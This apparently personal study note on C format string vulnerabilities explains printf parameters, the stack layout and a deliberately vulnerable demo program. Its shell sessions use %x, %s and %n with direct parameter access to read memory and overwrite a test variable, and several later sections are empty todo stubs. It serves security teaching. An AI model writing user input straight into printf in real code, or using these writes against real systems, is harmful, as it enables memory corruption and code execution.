


>[!warning]
>This class of bug is not operating system–specific. In their most common form, format string bugs are a result of facilities for handling functions with variable arguments in the C programming language. Because it’s really C that makes format string bugs possible, they affect every OS that has a C compiler, which is to say, almost every OS in existence.

# What Is a Format String Bug?

A *format string bug* occurs when user-supplied data is included in the format specification string of one of the `printf` family of functions, including:
- `printf`
- `fprintf`
- `sprintf`
- `snprintf`
- `vfprintf`
- `vprintf`
- `vsprintf`
- `vsnprintf`
- and similar...

The attacker supplies a number of **format parameters** that have no corresponding arguments on the stack, and values from the stack are used in their place. This leads to **information disclosure** and **potentially the execution of arbitrary code**.

<iframe width="660" height="415" src="https://www.youtube.com/embed/0WvrSfcdq1I" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

## Format parameters

| Parameter | Input Type | Output Type |
| --- | --- | --- |
| %d | Value | Decimal |
| %u | Value | Unsigned decimal |
| %x | Value | Hexadecimal |
| %s | Pointer | String |
| %n | Pointer | Number of bytes written so far |

The `%n` format parameter is unique in that **it writes data without displaying anything**, as opposed to reading and then displaying data. When a format function encounters a `%n` format parameter, **it writes the number of bytes** that have been **written by the function** to the **address in the corresponding function argument**.

## Format string logic

```c
printf("A is %d and is at %08x. B is %x.\n", A, &A, B);
```

When this `printf()` function is called (as with any function), the arguments are pushed to the stack in reverse order.
First the value of B, then the address of A, then the value of A, and finally the address of the format string.

The stack will look like the diagram here:

| Top of the stack          |
| ------------------------- |
| Address of format string  |
| Value of A                |
| Saved frame pointer (SFP) |
| Return Address (ret)      |
| Address of A              |
| Value of B                |
| ...                          |

The **format function iterates through the format string one character at a time**.
- If the character isn’t the beginning of a format parameter (which is designated by the percent sign), the character is copied to the output.
- If a format parameter is encountered, the appropriate action is taken, using the argument in the stack corresponding to that parameter.

### Example

Traditional format string:

```c
printf("The square root of 2 is: %2.4f\n", sqrt( 2.0 ) );
```

Made up by the format string `%2.4f` and the parameter placed inside `sqrt( 2.0 )`

Vulnerable program:

```c
#include <stdio.h>
#include <stdlib.h>
int main( int argc, char *argv[] )
{
	if( argc != 2 )
	{
		printf("Error - supply a format string please\n");
		return 1;
	}
	printf( argv[1] );
	printf( "\n" );
	return 0;
}
```

```bash
./fmt "%x %x %x %x"
```

we are effectively calling `printf` like this:

```c
printf( "%x %x %x %x" );
```

Although we have supplied the format string, **we haven’t supplied the four numeric variables to be substituted into the string**. Interestingly, `printf` doesn’t fail, instead producing output that looks like this:
`4015c98c 4001526c bffff944 bffff8e8`

So `printf()` is unexpectedly obtaining four arguments from somewhere.
These arguments are in fact **coming from the stack** and **are the values found below the stack frame for the format function**.

This may initially appear not to be a problem; however, an attacker might possibly be able to see the contents of the stack. What does that mean? Well, in itself it might reveal sensitive information such as usernames and passwords, but the problem runs deeper than that.

# Exploitation

## Reading from Arbitrary Memory Addresses

The `%s` format parameter can be used to **read from arbitrary memory addresses**.
Since *it’s possible to read the data of the original format string*, part of the **original format string can be used to supply an address** to the `%s` format parameter:

```bash
reader@hacking:~/booksrc $ ./fmt_vuln AAAA%08x.%08x.%08x.%08x
The right way to print user-controlled input:
AAAA%08x.%08x.%08x.%08x
The wrong way to print user-controlled input:
AAAAbffff3d0.b7fe75fc.00000000.41414141
[*] test_val @ 0x08049794 = -72 0xffffffb8
```

The four bytes of `0x41` indicate that the **fourth format parameter is reading from the beginning of the format string** to get its data. If the fourth format parameter is `%s` instead of `%x`, the format function will attempt to print the string located at `0x41414141`.

## Writing to Arbitrary Memory Addresses

If the `%s` format parameter can be used to read an arbitrary memory address, you should be able to use the **same technique with `%n` to write to an arbitrary memory address**.



```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xd7\xfd\xff\xbf")%08x.%08x.%08x.%s
The right way to print user-controlled input:
????%08x.%08x.%08x.%s
The wrong way to print user-controlled input:
????bffff3d0.b7fe75fc.00000000./usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/
usr/games
[*] test_val @ 0x08049794 = -72 0xffffffb8

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%08x.%08x.%08x.%n
The right way to print user-controlled input:
??%08x.%08x.%08x.%n
The wrong way to print user-controlled input:
??bffff3d0.b7fe75fc.00000000.
[*] test_val @ 0x08049794 = 31 0x0000001f
```

As this shows, the `test_val` variable can indeed be overwritten using the `%n` format parameter.
The resulting value in the test variable **depends on the number of bytes written before** the `%n`.

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc0
[*] test_val @ 0x08049794 = 21 0x00000015

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%100x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 120 0x00000078

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%180x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 200 0x000000c8

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%400x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 420 0x000001a4
reader@hacking:~/booksrc $
```

By manipulating the field-width option of one of the format parameters before the `%n`, a certain number of blank spaces can be inserted, resulting in the output having some blank lines.

Looking at the hexadecimal representation of the `test_val` value, it’s apparent that the least significant byte can be controlled fairly well. (Remember that the least significant byte is actually located in the first byte of the four-byte word of memory.) This detail can be used to write an entire address.

If four writes are done at sequential memory addresses, the least significant byte can be written to each byte of a four-byte word:

```
Memory 							94 95 96 97
First write to 0x08049794 		AA 00 00 00
Second write to 0x08049795 		   BB 00 00 00
Third write to 0x08049796 		      CC 00 00 00
Fourth write to 0x08049797 				 DD 00 00 00
Result AA BB CC DD
```

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??%x%x%8x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc 0
[*] test_val @ 0x08049794 = 28 0x0000001c
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xaa - 28 + 8
$1 = 150
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%150x%n
The right way to print user-controlled input:
??%x%x%150x%n
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc
0
[*] test_val @ 0x08049794 = 170 0x000000aa
```

The last `%x` format parameter uses 8 as the field width to standardize the output. This is essentially reading a random DWORD from the stack, which could output anywhere from 1 to 8 characters. Since the first overwrite puts 28 into `test_val`, using 150 as the field width instead of 8 should control the least significant byte of test_val to `0xAA`.

**The goal is to have four writes**. Each one will need to have a memory address passed to it, and among them all, four bytes of junk are needed to properly increment the byte counter for the `%n` format parameters. The first `%x` format parameter can use the four bytes found before the format string itself, but the remaining three will need to be supplied data. For the entire write procedure, the beginning of the format string should look like this:



## Direct Parameter Access

As the name would imply, direct parameter access **allows parameters to be accessed directly by using the dollar sign qualifier**. For example, `%n$d` would access the *n*th parameter and display it as a decimal number.

```c
printf("7th: %7$d, 4th: %4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
> 7th: 70, 4th: 00040
```

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%4\$n
The right way to print user-controlled input:
????????%4$n
The wrong way to print user-controlled input:
????????
[*] test_val @ 0x08049794 = 16 0x00000010
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0x72 - 16
$1 = 98
(gdb) p 0xfd - 0x72
$2 = 139
(gdb) p 0xff - 0xfd
$3 = 2
(gdb) p 0x1ff - 0xfd
$4 = 258
(gdb) p 0xbf - 0xff
$5 = -64
(gdb) p 0x1bf - 0xff
$6 = 192
(gdb) quit

reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n
The wrong way to print user-controlled input:
????????
bffff3c0
b7fe75fc
[*] test_val @ 0x08049794 = 64882 0x0000fd72

reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n%258x%6\$n%192x%7\$n
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n%258x%6$n%192x%7$n
The wrong way to print user-controlled input:
????????
bffff3b0
b7fe75fc
0
8049794
[*] test_val @ 0x08049794 = -1073742478 0xbffffd72
reader@hacking:~/booksrc $
```

## Using Short Writes

>[!todo]

## Overwriting .dtors

>[!todo]

## Overwriting the Global Offset Table

>[!info]
> See also [Global Offset Table and Procedure Linkage Table](Reversing%20and%20software%20memory%20101.md#Global%20Offset%20Table%20and%20Procedure%20Linkage%20Table)

<iframe width="660" height="415" src="https://www.youtube.com/embed/t1LH9D5cuK4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<iframe width="660" height="415" src="https://www.youtube.com/embed/MBz5C9Wa6KM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
